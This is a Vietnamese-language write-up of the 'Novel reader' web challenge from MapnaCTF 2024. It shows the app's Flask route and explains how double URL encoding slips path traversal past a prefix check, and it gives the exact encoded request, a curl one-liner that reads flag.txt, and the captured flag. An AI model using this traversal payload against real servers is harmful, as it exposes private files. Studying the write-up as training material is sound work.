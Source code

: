```yaml
---
title: "MapnaCTF 2024 - web"
excerpt: "MAPNA CTF 2024, a beginner-friendly Capture The Flag event, to be held between. Sat, 20 Jan. 2024, 15:00 UTC — Sun, 21 Jan. 2024, 15:00 UTC 💻 "
header:
show_date: true
header:
  teaser: "https://hackmd.io/_uploads/H1CoYbosp.png"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/By3gJwG0h.png"
categories:
  - CTF
tags:
  - CTF
  - Vietnamese
---
```


<p align="center">
<img src="https://hackmd.io/_uploads/H1CoYbosp.png">
</p>

# Web
## Novel reader - 44 point
### Description
```yaml
We have many fun novels for ya...
http://3.64.250.135:9000
```

Source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2024/mapnactf2024/novel-reader_d78366cb079727a6bd3809219df9bc7835d17fd1.txz)

### Solution

Giao diện web như sau: 
![image](https://hackmd.io/_uploads/ryT0JzCKa.png)

Ứng dụng có 2 chức năng chính là readfile và charge account. Mặc định Mỗi người dùng ban đầu sẽ có 100 Balance và 1 Words Balance.

Trong `list private` của endpoint `/api/list-private-novels` có chứa file 

```yaml
["A-Secret-Tale.txt"]
```

với nội dung có chứa FLAG: 
```yaml
Once a upon time there was a flag. The flag was read like this: MAPNA{test-flag}. FIN.
```

=> Mục tiêu: đọc được file `A-Secret-Tale.txt`

trong `main.py`
```py
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
```

ở đây ta thấy giá trị truyền vào được đưa vào hàm readFile để đọc và trả về dữ liệu cho người dùng nếu có đủ `words_balance`.

```http://3.64.250.135:9000/api/read/$PAYLOAD_INJEC```

Ở đây ta có thể path travesal vượt qua hàm `unqute` của `urllib.parse` bằng cách url encoding payload `%2e` => `%252f`

tôi đã thử đọc file `A-Secret-Tale.txt` bằng cách này với payload:

```yaml
GET /api/read/public%252F%252E%252E%252Fprivate%252FA%252DSecret%252DTale%252Etxt HTTP/1.1
Host: 3.64.250.135:9000
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://3.64.250.135:9000/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=[REDACTED]
Connection: close
```

tuy nhiên, nó không thành công do chúng ta không có đủ `words_balance`. 

![image](https://hackmd.io/_uploads/S1jdMGRta.png)

payload cuối:

```yaml
/api/read/public/%252e%252e/%252e%252e/flag.txt
```

### Script
```yaml
curl http://3.64.250.135:9000/api/read/public/%252e%252e/%252e%252e/flag.txt
```

result:
```yaml
{"msg":"MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}\n\n... Charge your account to unlock more of the novel!","success":true}
```


